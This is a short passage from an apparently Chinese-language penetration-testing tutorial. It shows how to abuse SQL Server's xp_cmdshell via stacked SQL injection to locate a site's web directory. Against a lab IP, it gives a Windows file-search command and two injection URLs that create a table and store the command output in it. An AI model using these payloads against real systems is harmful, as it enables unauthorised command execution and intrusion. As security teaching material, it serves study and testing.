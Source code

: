 ![mysql](./img/2.1.1.png)


`xp_cmdshell`

这个xp_cmdshell 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx  

```

C:\Users\Aleen>for /r c:\ %i in (1*.aspx) do @echo %i
c:\Users\Aleen\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.
IE5\8KB2ZI22\1[1].aspx
c:\www\1.aspx

```

所以我只需要建立一个表 存在一个char字段就可以了

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'


```
